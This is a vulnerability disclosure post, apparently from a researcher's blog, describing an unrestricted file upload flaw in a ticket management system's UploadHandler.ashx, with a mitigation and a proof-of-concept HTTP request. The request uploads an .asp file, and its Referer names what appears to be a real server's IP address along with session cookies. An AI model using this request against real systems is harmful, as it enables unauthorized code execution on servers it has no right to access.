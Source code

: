 ```yaml
---
title: "Ticket Management System Standard Version - File Upload Vulnerability"
date: 2024-08-12 11:18:23 +0800
category: 代码审计
tags: [Program,代码审计]
excerpt: Ticket Management System Standard Version - File Upload Vulnerability
---
```

- Vulnerability Name: Ticket Management System Standard Version - File Upload Vulnerability

- Vulnerabilities URL:/WiChat/ashx/UploadHandler. ashx

- Vulnerability description: UploadHandler does not filter uploaded files in any way

- Temporary solution: Set the permission to disable script running on the folder UploadImage



- Vulnerability related code

!(https://github.com/shigophilo/shigophilo.github.io/blob/main/_posts/imgs/2024-08-12-%E7%A5%A8%E5%8A%A1%E7%AE%A1%E7%90%86%E7%B3%BB%E7%BB%9F%E6%A0%87%E5%87%86%E7%89%88-%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E/image-20240812124039627.png?raw=true)

- Method for reproducing vulnerabilities

![image-20240812124118510](imgs/2024-08-12-票务管理系统标准版-文件上传漏洞/image-20240812124118510.png)

- visit url/UploadImage/1.asp

![image-20240812124205940](imgs/2024-08-12-票务管理系统标准版-文件上传漏洞/image-20240812124205940.png)

- POC

```
GET /WeChat/ashx/UploadHandler.ashx HTTP/2
Host: host
Cookie: ASP.NET_SessionId=uuigwbm4v4b30ykuja5c2xsn; SESSIONID=VAEAADILWiMFEnkxjy0Io/Rwsst9uE3mxlZfIc8i6UI=&VAEAAPWddZzuRvJK3ALg8A==&HUAWEI &langfrombrows=zh-CN,&copyright=2014-2022; ASPSESSIONIDSGDRADAS=DPFDAIDBPACHPBHNFJOHLILC
Cache-Control: max-age=0
Sec-Ch-Ua: "Not?A_Brand";v="8", "Chromium";v="108", "Google Chrome";v="108"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://117.145.188.82:8010/WeChat/ashx/
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7yyQ5XLHOn6WZ6MT
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Content-Length: 7483

------WebKitFormBoundary7yyQ5XLHOn6WZ6MT
Content-Disposition: form-data; name="file"; filename="1.asp"
Content-Type: image/jpeg

<% 
    Response.Write "Hello, World!"
%>
------WebKitFormBoundary7yyQ5XLHOn6WZ6MT--
```

